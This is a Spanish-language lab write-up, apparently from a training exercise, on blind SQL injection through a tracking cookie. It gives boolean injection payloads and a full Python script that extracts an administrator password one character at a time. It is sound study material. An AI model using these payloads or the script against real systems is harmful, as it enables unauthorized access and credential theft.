









# Lab: Blind SQL injection with conditional responses

## Objetivo
Obtener la contraseña del usuario administrator.

## Información dada

* La cookie de seguimiento es usada en la consulta sql
* Tabla 'users' con las columnas de username y password.
*  Si la consulta retorna cualquier fila, la aplicacion incluye el mensaje 'Welcome back'.


## Exploración


La pagina proporciona la cookie de sesion y  de seguimiento; y el mensaje de 'Welcome back!' esta presente con cualquier filtro aplicado


---


## Explotacion

Se agrego una comilla simple al final de la cookie 'TrackingId'. Esto provoco que el mensaje de 'Welcome back' desapareciera. Despues se agrego `'--` y el mensaje volvio a aparecer


Para determinar la cantidas de columnas tomadas en la consulta, se inyecto `'+ORDER+BY+N--` , y se incremento `N`, hasta que hubo un cambio en el comportamiento de la pagina. Se determino que la consula solo uso una columna



El acceso a la tabla `users` se confirmo mediante la inyeccion:
```
'+AND+(SELECT+SUBSTRING(username,1,1)+FROM+users+WHERE+username='administrator')='a'--
``` 




Para determinar el tamaño de la contraseña correspondiente al usuario administrator, se realizaron multiples inyecciones `'+AND+(SELECT+LENGTH(password)+FROM+users+WHERE+username='administrator')=<N>--` donde el valor de `N` se fue aumentando hasta que el mensaje de `Welcome Back!` volvio a aparecer. Se determino que el password tiene un tamaño de 20 

Ataque realizado en intruder(Snipe atack):

Se selecciono el campo donde se introducirian los valores



Se configuro el patron a buscar


Se busco el patron y se descubrio que la contraseña tuvo una longitud de 20 caracteres



Para obtener la contraseña se desarrolló un script en Python que automatiza las inyecciones SQL. El script realiza peticiones probando cada carácter posible para cada posición de la password y determina el valor correcto a partir de la respuesta de la aplicación(Buscando el mensaje "Welcome back!").

```python
#!/usr/bin/env python3
import sys
import requests
from bs4 import BeautifulSoup
import re
import urllib3
import string
urllib3.disable_warnings()
cl="\r\033[K"
gyC="\033[0;37m\033[1m"
yC="\033[0;33m\033[1m"
bC="\033[0;34m\033[1m"
gC="\033[0;32m\033[1m"
rC="\033[0;31m\033[1m"
eC="\033[0m"
def findChar(url,cookies,longitud):
    pazz=""
    char_template="{trackingId}'AND+(SELECT+SUBSTRING(password,{pos},1)+FROM+users+WHERE+username='administrator')='{char}'--"
    trackingId=cookies["TrackingId"]
    for pos in range(1,longitud+1):
        for char in string.ascii_letters+string.digits:
            trackingIdInyeccion=char_template.format(trackingId=trackingId,pos=pos,char=char)
            cookies["TrackingId"]=trackingIdInyeccion
            print(f"{cl}{yC}[+] {gyC}Realizando inyeccion: {gC}{trackingIdInyeccion}{eC}",end="",flush=True)
            response=requests.get(url=url,verify=False,cookies=cookies)
            soup = BeautifulSoup(response.text,"lxml")
            nodo = soup.find(string="Welcome back!")
            if nodo :
                print(f" {gyC}Caracter{yC}[{pos}]{gyC} encontrado: {rC}{char}{eC}")
                pazz+=char
                break
    print(f"{yC}[+] Las password para el usuario administrator es: {rC}{pazz}{eC}")
def main():
    url=sys.argv[1].strip("/") 
    #Obtencion de cookies
    response = requests.get(
            url=url,
            verify=False,
            proxies={"https":"http://127.0.0.1:8080"}
    )
    findChar(url,response.cookies.get_dict(),20)
main()


```

Uso:
```bash
./script.py <url>
```
Demostracion animada:


Resultado de la ejecucion:


